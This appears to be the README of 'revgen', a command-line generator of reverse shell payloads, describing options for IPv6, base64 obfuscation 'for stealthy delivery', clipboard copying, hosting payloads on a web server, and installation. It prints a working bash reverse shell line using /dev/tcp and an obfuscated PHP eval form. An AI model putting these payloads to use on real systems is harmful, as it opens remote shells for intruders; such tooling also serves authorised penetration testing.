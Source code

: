 ### 🌍 **IPv4 + IPv6 Support**
Automatically detects IP version and formats payloads correctly:
```bash
revgen --ip 2001:db8::1 --port 8080 --lang bash
# Output: bash -i >& /dev/tcp/[2001:db8::1]/8080 0>&1
```

### 🧩 **Obfuscation Mode**
Base64-encode payloads for stealthy delivery:
```bash
revgen --ip 10.0.0.5 --port 4444 --lang php --obfuscate
# Output: php -r 'eval(base64_decode("..."));'
```

### 📋 **Clipboard Integration**
Instantly copy generated payloads:
```bash
revgen --ip 192.168.1.100 --port 4444 --lang bash --copy
# 🎯 Payload copied to clipboard!
```

### 🔥 **Hollywood Hacker Mode**
Enable fancy ASCII art and styling:
```bash
revgen --ip 10.0.0.5 --port 4444 --all --fancy
```

### 🌐 **Built-in Web Server**
Host payloads on a local web server for team access:
```bash
revgen --ip 192.168.1.100 --port 4444 --all --server
# 🌐 Web server started: http://192.168.1.50:8080
```

### 🎯 **Smart IP Detection**
```bash
# Auto-detect public IP
revgen --auto-ip --port 4444 --lang bash

# Use local IP
revgen --local-ip --port 4444 --lang python
```

---

## 🚀 Installation

### Quick Install (Recommended)
```bash
# Clone and install
git clone https://github.com/karthikm/revgen.git
cd revgen
pip install -e .

# Or install from PyPI (when published)
pip install revgen
```
